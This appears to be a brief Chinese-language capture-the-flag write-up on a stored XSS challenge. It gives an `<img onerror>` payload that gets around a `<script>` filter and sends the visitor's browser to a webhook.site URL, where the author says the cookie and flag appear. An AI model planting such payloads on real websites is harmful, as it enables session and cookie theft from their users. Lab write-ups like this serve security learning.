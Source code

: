 使用Webhook获取接受cookie的平台。

需要绕过对`<script>`标签的过滤。

在comment中提交以下内容：

```javascript
<img src=x onerror="location.href='https://webhook.site/2e5eb7e5-8fdd-4d92-9baa-cdb287d1862a'">
```

在Webhook中查看请求及cookie，得到FLAG。